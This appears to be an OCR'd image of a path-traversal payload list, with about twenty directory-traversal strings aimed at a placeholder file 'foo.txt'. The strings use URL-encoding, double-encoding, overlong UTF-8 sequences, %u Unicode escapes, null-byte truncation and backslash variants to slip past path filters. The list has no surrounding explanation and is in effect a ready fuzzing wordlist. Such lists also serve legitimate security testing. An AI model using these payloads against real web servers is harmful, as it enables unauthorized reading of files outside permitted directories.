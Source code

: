 ../../../foo.txt
../../../../../foo%00.txt
..%2f..%2f..%2ffoo.txt
files/foo.txt/./.[N]/./.
%2e%2e/%2e%2e/%2e%2e/foo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
..%252f..%252f..%252ffoo.txt
%252e%252e/%252e%252e/%252e%252e/foo.txt
%252e%252e%252f%252e%252e%252f%252e%252e%252ffoo.txt
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cfoo.txt
%C0%AE%C0%AE%C0%AF%C0%AE%C0%AE%C0%AFetc%C0%AFfoo
..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8foo.txt
\../\../\../\../\../\../foo.txt
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cfoo.txt
..%2f..%2f..%2f..%2f..%2f..%2ffoo.txt
%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\foo.txt
..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9cfoo.txt
..%255c..%255c..%255c..%255c..%255cfoo.txt
..%5c..%5c..%5c..%5c..%5c..%5cfoo.txt